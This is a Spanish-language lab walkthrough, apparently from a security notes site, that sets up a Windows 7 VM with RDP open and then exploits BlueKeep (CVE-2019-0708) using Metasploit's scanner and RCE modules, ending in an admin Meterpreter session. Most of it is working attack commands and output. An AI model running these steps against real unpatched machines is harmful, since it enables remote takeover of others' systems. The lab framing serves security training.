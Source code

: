 ```yaml
---
icon: bacterium
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# BlueKeep Conf y Explotación

Primero obtendremos la OVA de un windows 7.

URL OVA = https://drive.google.com/file/d/1bwoAZpjrCqWljwbMoLmoLQRC5i1W\_pWQ/view?usp=sharing

Y si queremos la ISO para configurar los siguientes pasos desde 0 en la siguiente URL.

URL ISO = https://drive.google.com/file/d/1XDKg0wmhKDtC-CoPcKQwWD34nWr58YKF/view?usp=sharing

> Credentials W7

URL = https://drive.google.com/file/d/1k\_ne4v4IHBWFvQti9vox0Gyq2XNTGglk/view?usp=drive\_link

Una vez que hayamos importado la ISO en VMWare, los pasos de configuracion seran los siguientes.

Dentro de Windows 7 en el menu de configuracion del inicio, seleccionaremos la siguiente edicion.

```
Windows 7 Professional
```

> NOTA IMPORTANTE

Es importante elegir esta edicion, ya que de lo contrario no podremos obtener el puerto RPD (3389) para hacer nuestras pruebas de penetracion con el exploit BlueKeep.

Seguimos los siguientes pasos de normal.

Una vez dentro abrimos el cmd como administrador y pondremos los siguientes coamndos para habilitar el puerto RPD (3389).

```shell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

Creamos una regla en el Firewall para permitirlo.

```shell
netsh advfirewall firewall add rule name="Allow RDP" protocol=TCP dir=in localport=3389 action=allow
```

Y con esto verificamos que el puerto 3389 este activo.

```shell
netstat -an | find "3389"
```

Ahora en nuestra maquina atacante, ejecutaremos el `nmap` para verificar que este activo el puerto 3389 (RPD) en la maquina victima.

```shell
nmap -sCV -p3389 <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-26 12:46 CEST
Nmap scan report for 192.168.5.140
Host is up (0.00042s latency).

PORT     STATE SERVICE    VERSION
3389/tcp open  tcpwrapped
| ssl-cert: Subject: commonName=exploitbluekeep
| Not valid before: 2024-07-25T10:44:48
|_Not valid after:  2025-01-24T10:44:48
MAC Address: 00:0C:29:24:51:3E (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.91 seconds
```

Vemos que si esta activo, por lo que ahora pasaremos a la explotacion del exploit `BlueKeep`.

## <mark style="color:purple;">Explotacion con exploit BlueKeep</mark>

Primero haremos un scanner para ver si es vulnerable al BlueKeep.

```shell
msfconsole -q
```

```shell
search bluekeep
```

Seleccionamos el scanner.

```shell
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
```

Configuramos para que scanee a la IP victima.

```shell
show options
```

```shell
set RHOSTS <IP>
```

Ejecutamos el exploit.

```shell
run
```

Info:

```
[+] 192.168.5.140:3389    - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.5.140:3389    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Por lo que vemos dice que si es vulnerable, por lo que pasaremos a explotarlo del todo.

```shell
search bluekeep
```

Utilizamos el exploit con el que nos va a crear una shell a la maquina windows.

```shell
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

Configuramos todo el exploit.

```shell
show options
```

```shell
set RHOSTS <IP>
```

```shell
show targets
```

Info:

```
Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Automatic targeting via fingerprinting
    1   Windows 7 SP1 / 2008 R2 (6.1.7601 x64)
    2   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Virtualbox 6)
    3   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 14)
    4   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15)
    5   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - VMWare 15.1)
    6   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Hyper-V)
    7   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - AWS)
    8   Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - QEMU/KVM)
```

Aqui seleccionamos el que se adapte a nuestras necesidades.

```shell
set target 4
```

Ejecutamos el exploit.

```shell
exploit
```

Y con esto ya nos habria creado una sesion con un meterpreter autenticada como admin.
